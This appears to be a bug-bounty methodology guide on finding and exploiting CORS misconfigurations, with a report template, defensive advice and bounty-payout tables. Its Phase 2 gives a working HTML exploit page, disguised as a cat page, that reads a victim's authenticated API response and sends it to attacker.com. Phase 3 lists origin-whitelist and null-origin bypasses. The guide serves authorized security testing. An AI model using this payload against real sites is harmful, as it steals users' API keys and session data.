


# CORS Misconfiguration Exploitation

## When to Use
- When auditing REST APIs (`/api/v1/user/details`) that return highly sensitive user data.
- When an application interacts heavily with external Subdomains (e.g., `app.target.com` talking to `api.target.com`).
- When looking for a way to exfiltrate data from an authenticated session without possessing an XSS vulnerability on the target.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying Permissive CORS Headers

```http
# Concept: The Same-Origin Policy (SOP) prevents Website A from reading data from Website B.
# CORS is a mechanism to bypass SOP safely. If misconfigured, an attacker's website can read 
# the victim's data from the vulnerable server.

# 1. Intercept a request to a sensitive endpoint (e.g., user profile data).
GET /api/private/details HTTP/1.1
Host: api.target.com
Origin: https://evil.com       # Inject an attacker-controlled origin

# 2. Analyze the Response:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true

{"email": "admin@target.com", "apiKey": "sk_live_xyz..."}

# Assessment: CRITICAL vulnerability. Because `Allow-Origin` dynamically reflected our evil origin, 
# AND `Allow-Credentials` is true, a script on evil.com can extract this user's API key.
```

### Phase 2: Exploiting the Flaw (Building the HTML Payload)

```html
<!-- Concept: We must host a malicious website that forces the victim's browser to make the GET request -->
<!-- and extract the API response. -->

<!-- 1. Create exploit.html on attacker.com -->
<html>
    <body>
        <h2>Loading cute cats...</h2>
        <script>
            // Initialize the cross-origin request
            var req = new XMLHttpRequest();
            req.onload = function() {
                // When the vulnerable API responds, exfiltrate the text out to our log server
                fetch('https://attacker.com/log?data=' + btoa(this.responseText));
            };
            // Target the vulnerable endpoint
            req.open('GET', 'https://api.target.com/api/private/details', true);
            
            // Critical: Force the browser to attach the victim's session cookies
            req.withCredentials = true;
            req.send();
        </script>
    </body>
</html>
```

### Phase 3: Bypassing Developer CORS Filters

```text
# Concept: Developers often attempt to implement whitelists, but use faulty Regex or string matching.

# 1. Prefix/Suffix bypasses
# Developer intended to whitelist `https://target.com`.
Origin: https://target.com.attacker.com     # Attacker creates a subdomain matching the prefix
Origin: https://attackertarget.com          # Origin matches the suffix

# 2. Null Origin Bypass
# Developer miscalculates local execution environments.
Origin: null
# Result: Access-Control-Allow-Origin: null
# Exploit: To exploit this, load the exploit through an iframe sandbox to force a "null" origin.
# <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,...">

# 3. HTTP to HTTPS downgrade
# A secure site (HTTPS) trusting its insecure counterpart (HTTP).
Origin: http://target.com
# Exploit: If the attacker sits on the same local network as the victim (e.g., coffee shop), 
# they can intercept the HTTP origin and inject the CORS payload.
```

### Phase 4: Exploiting CORS for Internal Network Scanning

```text
# Concept: An application might permit CORS for "ANY" internal IP range, allowing pivoting.
Origin: http://192.168.1.5

# If the server reflects this origin, you can use the victim's browser to initiate 
# internal network port scans that return the data directly back to you via JavaScript.
```

#### Decision Point 🔀



### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Explicit Whitelists:** Do not dynamically reflect the incoming `Origin` header into the `Access-Control-Allow-Origin` response header. Maintain a hardcoded, absolute array of trusted domains and perform exact string matching.
- **Null Safety:** Never configuring the server to trust the `null` origin, as malicious sandboxed iframes can easily impersonate it.
- **Deny Wildcards with Credentials:** The HTTP specification explicitly forbids `Access-Control-Allow-Origin: *` while `Access-Control-Allow-Credentials: true` is active, but developers often mistakenly script custom logic to bypass this protection by echoing the wildcard.

## Key Concepts
| Concept | Description |
|---------|-------------|
| SOP | Same-Origin Policy; browser security feature ensuring scripts on domain A cannot read data stored on domain B |
| CORS | Protocol allowing domains to selectively relax the SOP to share APIs and data |
| ACAO | Access-Control-Allow-Origin; the HTTP response header specifying which domains are permitted to read the response |
| ACAC | Access-Control-Allow-Credentials; determines if the browser should expose the response when the request was made using the victim's cookies |

## Output Format
```
Bug Bounty Report: API Key Exfiltration via CORS Misconfiguration
=================================================================
Vulnerability: Cross-Origin Resource Sharing Misconfiguration
Severity: High (CVSS 7.5)
Target: GET /api/v1/user/keys

Description:
The target API utilizes an insecure CORS configuration that dynamically reflects arbitrary origins supplied by the requester alongside the `Access-Control-Allow-Credentials: true` directive. By hosting a malicious HTML page, an attacker can leverage the victim's active session to retrieve their account's sensitive data across domains.

Reproduction Steps:
1. The victim establishes an authenticated session on `target.com`.
2. The attacker tricks the victim into visiting `http://attacker-site.com/exploit.html`.
3. The embedded JavaScript automatically executes a cross-origin `XMLHttpRequest` to `https://api.target.com/api/v1/user/keys`, attaching the victim's session cookies.
4. Due to the CORS misconfiguration, the victim's browser permits the attacker's script to read the API response JSON containing the plaintext API Key.
5. The script seamlessly exfiltrates this data to the attacker's server.

Impact:
Critical data exposure allowing persistent Account Takeover via API Key theft.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Industry Bounty Payout Statistics (2024-2025)

| Company/Platform | Total Paid | Highest Single | Year |
|-----------------|------------|---------------|------|
| **Google VRP** | $17.1M | $250,000 (CVE-2025-4609 Chrome sandbox escape) | 2025 |
| **Microsoft** | $16.6M | (Not disclosed) | 2024 |
| **Google VRP** | $11.8M | $100,115 (Chrome MiraclePtr Bypass) | 2024 |
| **HackerOne (all programs)** | $81M | $100,050 (crypto firm) | 2025 |
| **Meta/Facebook** | $2.3M | up to $300K (mobile code execution) | 2024 |
| **Crypto.com (HackerOne)** | $2M program | $2M max | 2024 |
| **1Password (Bugcrowd)** | $1M max | $1M (highest Bugcrowd ever) | 2024 |
| **Samsung** | $1M max | $1M (critical mobile flaws) | 2025 |

**Key Takeaway**: Google alone paid $17.1M in 2025 — a 40% increase YoY. Microsoft paid $16.6M.
The industry is paying more, not less. Average critical bounty on HackerOne: $3,700 (2023).

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [CORS Vulnerabilities](https://portswigger.net/web-security/cors)
- OWASP: [Test Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- PayloadAllTheThings: [CORS Misconfiguration](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration)
